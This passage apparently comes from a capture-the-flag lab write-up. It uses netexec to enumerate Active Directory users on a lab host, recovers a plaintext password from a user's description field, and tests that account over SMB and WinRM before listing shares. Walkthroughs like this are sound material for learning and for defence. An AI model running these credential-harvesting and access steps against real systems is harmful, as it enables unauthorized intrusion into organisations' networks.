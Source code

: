 
### 3.3 Enumerating Domain Users via Michael's Account

**Note:** The `description` attribute in Active Directory user objects is often overlooked. Administrators or users sometimes store plaintext passwords or hints there, making it a common information leak vector.

We switch enumeration mode to `--users` to retrieve user descriptions:

``` bash
netexec smb 10.10.11.35 -u 'michael.wrightson' -p credentials.txt --users
```

![netexec_michael_users](netexec_michael_users.png)

**Finding:**  
The account `david.orelious` has his password stored in the description field:

`aRt$Lp#7t*VQ!3`

---

### 3.4 Accessing David's Account

We confirm the credentials:

``` bash
netexec smb 10.10.11.35 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3'
```

![netexec_david](netexec_david.png)

**Result:**  
The login is successful.

---

### 3.5 Checking WinRM for David

``` bash
netexec winrm 10.10.11.35 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3'
```

![netexec_winrm_david](netexec_winrm_david.png)

**Result:**  
WinRM is also disabled for this account.

---

### 3.6 Enumerating Shares for David

``` bash
netexec smb 10.10.11.35 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3' --shares
```

![netexec_david_shares](netexec_david_shares.png)

